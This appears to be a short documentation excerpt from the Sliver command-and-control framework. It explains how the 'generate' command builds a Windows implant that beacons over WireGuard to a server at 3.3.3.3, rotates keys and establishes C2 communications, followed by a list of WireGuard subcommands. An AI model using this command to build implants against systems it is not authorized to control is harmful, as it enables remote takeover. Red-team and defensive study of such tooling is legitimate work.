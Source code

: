 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
The follow command is used to generate a sliver Windows executable (PE) file, that will connect back to the server using Wireguard on UDP port 9090,                                                                    
then connect to TCP port 1337 on the server's virtual tunnel interface to retrieve new wireguard keys, re-establish the wireguard connection using the new keys,                                                        
then connect to TCP port 8888 on the server's virtual tunnel interface to establish c2 comms.                                                                                                                           
        generate --wg 3.3.3.3:9090 --key-exchange 1337 --tcp-comms 8888



  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface
  wg                Start a WireGuard listener



generate --wg 3.3.3.3:9090 --key-exchange 1337 --tcp-comms 8888